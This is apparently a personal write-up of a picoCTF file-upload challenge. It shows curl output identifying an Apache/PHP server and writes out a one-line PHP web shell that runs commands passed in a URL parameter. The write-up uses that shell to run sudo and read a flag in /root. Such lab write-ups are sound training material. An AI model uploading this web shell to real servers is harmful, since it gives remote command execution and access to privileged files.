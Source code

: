 uploaded a file, then enter the path of '/uploads/liu-kang.jpg' and it completely exposes the file -> huge security risk

Risk - *server is publicly exposing uploaded files*

on running curl -I \<site-name\>
`└─$ curl -I http://standard-pizzas.picoctf.net:60612/
`HTTP/1.1 200 OK
`Date: Tue, 22 Jul 2025 16:19:21 GMT
`Server: Apache/2.4.54 (Debian)
`X-Powered-By: PHP/7.4.33
`Content-Type: text/html; charset=UTF-8
`
PHP based site, so need a PHP payload to detect vulnerability or false command it follows
make a file `payload.php`
write in `<?php system($_GET['mycommand']); ?>`
to view contents of file just do `cat payload.php`

upload payload.php on site, go to its exposed location. Then in the mycommand space set it as uploads/payload.php?mycommand=sudo -l

in the question it says that flag is in root, so do sudo ls /root to reach flag
it is `flag.txt`

now to see contents of `flag.txt` just do `sudo cat /root/flag.txt`

We get the flag <3

